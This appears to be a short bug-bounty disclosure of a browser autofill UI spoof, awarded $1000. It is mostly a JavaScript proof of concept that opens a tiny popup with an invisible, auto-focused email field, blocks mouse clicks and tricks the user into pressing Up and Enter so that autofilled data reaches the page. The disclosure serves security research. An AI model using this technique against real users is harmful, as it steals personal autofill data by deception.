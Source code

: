 ```yaml
---
title: AutoFill UI spoof (Awarded $1000)
---
```


AutoFill is not be meant to be usable via keyboard shortcuts when its hidden.  
But with a certain window size it would attempt to render over the url bar.

```js
let w = window.open("", "", "width=1,height=1");
w.resizeTo(250, 150);
w.eval(`
let input = document.createElement("input");
input.type = "email";
input.autocomplete = "email";
input.name = "email";
input.size = "1";
input.style.opacity = '0';
input.onkeypress = e => {
    e.preventDefault();
}
window.onmousedown = e => {
    // ignore mouse clicks
    e.preventDefault();
}
input.onchange = e => {
    alert(e.srcElement.value);
    e.srcElement.value = "";
}
document.body.appendChild(input);
setInterval(() => {
    input.focus({preventScroll: true});
}, 1000);
`);
let p = document.createElement("p");
p.innerText = "Please press the Up arrow then Enter :)";
w.document.body.appendChild(p);
```
